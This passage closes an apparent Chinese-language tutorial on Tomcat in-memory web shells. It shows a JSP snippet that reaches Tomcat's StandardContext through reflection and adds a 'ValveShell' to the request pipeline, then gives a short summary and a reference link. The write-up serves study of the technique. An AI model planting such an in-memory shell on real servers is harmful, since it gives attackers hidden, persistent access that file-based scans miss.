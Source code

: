 ```bash
<%
    ServletContext serverContext = request.getSession().getServletContext();
    Field applicationContextField = serverContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(serverContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    ValveShell myValveShell = new ValveShell();
    standardContext.getPipeline().addValve(myValveShell);

%>
```

## 9\. 总结

本文对涉及的代码进行了逐行阅读，重要部分也加上了注释。由于篇幅原因，Valve 部分没有详细描述，原理相似。在学习内存马之前没有深入理解过 Tomcat 底层的原理，包括脚本启动、初始化类加载器、解析文件、启动组件等，这些前置知识很重要，详细后续再更新..

## 10\. 参考

[JavaWeb 内存马一周目通关攻略](https://su18.org/post/memory-shell/#filter-%E5%86%85%E5%AD%98%E9%A9%AC)
